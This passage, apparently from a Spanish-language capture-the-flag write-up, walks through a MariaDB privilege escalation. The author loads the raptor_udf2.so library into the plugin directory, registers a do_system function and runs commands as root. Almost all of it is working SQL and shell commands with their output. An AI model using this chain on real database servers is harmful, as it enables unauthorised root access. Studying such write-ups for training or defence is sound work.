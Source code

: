 ```sql
MariaDB [mysql]> CREATE TABLE foo(line BLOB);
Query OK, 0 rows affected (0.007 sec)

MariaDB [mysql]> INSERT INTO foo VALUES(LOAD_FILE('/dev/shm/raptor_udf2.so'));
Query OK, 1 row affected (0.002 sec)
```

Lo siguiente que necesito saber es el directorio de complementos:

```sql
MariaDB [mysql]> SHOW VARIABLES LIKE '%plugin%';
```

```
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
2 rows in set (0.001 sec)
```

Escribiré ese binario en el directorio de complementos de arriba y lo cargaré como una función definida por el usuario:

```sql
MariaDB [mysql]> SELECT * FROM foo INTO DUMPFILE '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
Query OK, 1 row affected (0.000 sec)

MariaDB [mysql]> CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
Query OK, 0 rows affected (0.001 sec)
```

Para probarlo, usaré la función para ejecutar `id` y escribir el resultado en un archivo:

```sql
MariaDB [mysql]> SELECT do_system('id > /dev/shm/test; chmod 777 /dev/shm/test');
```

```
+----------------------------------------------------------+
| do_system('id > /dev/shm/test; chmod 777 /dev/shm/test') |
+----------------------------------------------------------+
|                                                        0 |
+----------------------------------------------------------+
1 row in set (0.005 sec)
```

La salida en MySQL no es útil, pero el archivo está ahí y fue ejecutado por root:

```bash
svc@noter:/dev/shm$ ls -l test 
-rwxrwxrwx 1 root root 39 Mar 30 21:08 test
svc@noter:/dev/shm$ cat test 
uid=0(root) gid=0(root) groups=0(root)
```

